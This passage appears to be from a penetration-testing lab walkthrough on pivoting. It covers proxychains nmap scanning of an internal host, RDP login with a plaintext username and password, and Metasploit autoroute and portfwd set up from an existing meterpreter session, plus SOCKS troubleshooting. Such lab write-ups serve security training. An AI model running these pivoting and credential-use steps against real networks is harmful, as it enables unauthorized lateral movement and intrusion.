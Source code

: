 ### Step 8: Enumerate Target via SOCKS
```bash
proxychains nmap 172.16.5.35 -Pn -sT
```

**Expected Output:**
```
PORT     STATE SERVICE
22/tcp   open  ssh
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
```

### Step 9: RDP via Proxychains
```bash
proxychains xfreerdp /v:172.16.5.35 /u:mlefay /p:'Plain Human work!'
```

---

## Method B: Port Forward (More Reliable)

### Alternative Approach - Direct Port Forwarding

```bash
# After establishing meterpreter session and routes:
sessions -i 1
run autoroute -s 172.16.5.0/16

# Set up port forward
portfwd add -l 13389 -p 3389 -r 172.16.5.35
portfwd list
bg

# Connect directly (no proxychains needed)
xfreerdp /v:127.0.0.1:13389 /u:mlefay /p:'Plain Human work!'
```

---

## Troubleshooting Common Issues

### Issue 1: SOCKS Version Mismatch
**Symptoms:** 
- `proxychains` timeout
- Connection refused errors

**Solution:**
Match SOCKS versions in MSF and proxychains config:
```bash
# Check MSF SOCKS version
show options

# Edit proxychains accordingly
sudo nano /etc/proxychains.conf
```
